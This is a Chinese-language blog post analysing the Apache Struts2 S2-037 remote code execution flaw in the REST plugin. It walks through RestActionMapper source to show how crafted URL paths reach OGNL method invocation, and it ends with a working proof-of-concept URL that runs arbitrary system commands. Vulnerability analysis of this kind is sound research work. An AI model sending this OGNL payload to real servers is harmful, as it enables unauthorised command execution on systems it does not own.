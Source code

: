 ```yaml
---
layout: post  
title: "2017-11-03-struts2漏洞调试合集之S2-037"  
date: 2017-11-03  
description: "java漏洞"  
tag: 漏洞分析
---
```

#介绍  
其实这个037就是033的绕过，虽然点不一样，033需要开启动态函数调用，但是037找到了不需要开启动态函数的地方。
![](http://ohsqlm7gj.bkt.clouddn.com/17-11-6/42641946.jpg)
官方的说明，在启用rest时，可能会造成远程代码执行，rest最近也出了一个xml反序列漏洞，具体的漏洞原因可以看我的前几次文章。[http://www.codersec.net/2017/09/s2052%E6%BC%8F%E6%B4%9E%E8%A7%A3%E6%9E%90%E5%92%8C%E8%A1%A5%E4%B8%81%E5%88%86%E6%9E%90/](http://www.codersec.net/2017/09/s2052%E6%BC%8F%E6%B4%9E%E8%A7%A3%E6%9E%90%E5%92%8C%E8%A1%A5%E4%B8%81%E5%88%86%E6%9E%90/)。基本可以定位了，那就是直接分析struts2-rest-plugin了。
#分析  
好在struts2-rest-plugin代码量不多，如果分析过s2-052的也知道。插件的一些知识点
![](http://ohsqlm7gj.bkt.clouddn.com/17-11-6/6138604.jpg)其实最终的触发点和之前分析的s2-032是一样的，都是在DefaultActionInvocation里的OgnlUtil.callMethod里面触发。那么追究其原因，就是在向ActionMapping放入键值对的时候没有过滤好。在RestActionMapper.java 的getMapping处下断点。
我把关键代码贴出来，代码的运行过程满满地描述出来
```
    ActionMapping mapping = new ActionMapping();  
    String uri = RequestUtils.getUri(request);
        uri = dropExtension(uri, mapping);//除去url后缀，将/order/233.xml(xml,xhtml,json,'')去掉,如果url不是这类的，就返回404,其中xml,json,xhtml这类格式的都是用来做接口用的，如果不是这类的后缀，那么uri为空，这样下一步的if就直接return结束了,直接404
        if (uri == null) {
            return null;
        }
        parseNameAndNamespace(uri, mapping, configManager);//解析map的名字和空间
        handleSpecialParameters(request, mapping);//处理特殊的参数
        if (mapping.getName() == null) {
            return null;
        }
         // handle "name!method" convention.
        handleDynamicMethodInvocation(mapping, mapping.getName());//解析动态方法调用，这里是重点!!!!!!
        String fullName = mapping.getName();
        // Only try something if the action name is specified```
下面继续看handleDynamicMethodInvocation函数
```
private void handleDynamicMethodInvocation(ActionMapping mapping, String name) {
        int exclamation = name.lastIndexOf("!");
        if (exclamation != -1) {
            mapping.setName(name.substring(0, exclamation));//获取name
            if (allowDynamicMethodCalls) {
                mapping.setMethod(name.substring(exclamation + 1));
            } else {
                mapping.setMethod(null);
            }
        }
    }
```
如果开启了动态调用，那么mapping.setMethod就设置进去，后面的执行就和s2-032一样了，这个是s2-033的点。如果设置动态调用,直接修改struts.xml就ok了。
![](http://ohsqlm7gj.bkt.clouddn.com/17-11-6/298879.jpg)
接下来就厉害了，
    ```
String fullName = mapping.getName();
        // Only try something if the action name is specified
        if (fullName != null && fullName.length() > 0) {

            // cut off any ;jsessionid= type appendix but allow the rails-like ;edit
            int scPos = fullName.indexOf(';');
            if (scPos > -1 && !"edit".equals(fullName.substring(scPos + 1))) {
                fullName = fullName.substring(0, scPos);
            }

            int lastSlashPos = fullName.lastIndexOf('/');
            String id = null;
            if (lastSlashPos > -1) {

                // fun trickery to parse 'actionName/id/methodName' in the case of 'animals/dog/edit'
                int prevSlashPos = fullName.lastIndexOf('/', lastSlashPos - 1);
                if (prevSlashPos > -1) {
                    mapping.setMethod(fullName.substring(lastSlashPos + 1));
                    fullName = fullName.substring(0, lastSlashPos);
                    lastSlashPos = prevSlashPos;
                }
                id = fullName.substring(lastSlashPos + 1);
            }
    ```
如何让mapping.setMethod执行,其实逻辑也很简单，只需要两个//即可，按照官方给的注释，其实官方的本来意思是想将'actionName/id/methodName'这类url单独解析,提取的函数的方式也就是fullName.substring(lastSlashPos + 1),这样函数名最终被带入到mapping，然后最后经过DefaultActionInvocation里面的OgnlUtil.callMethod之行ongl表达式,poc如下:
```
http://127.0.0.1:8080/s2-037/orders/4/(%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)%3f(%23wr%3d%23context%5b%23parameters.obj%5b0%5d%5d.getWriter(),%23rs%3d@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(%23parameters.command[0]).getInputStream()),%23wr.println(%23rs),%23wr.flush(),%23wr.close()):xx.toString.json?&obj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&content=16456&command=whoami
```
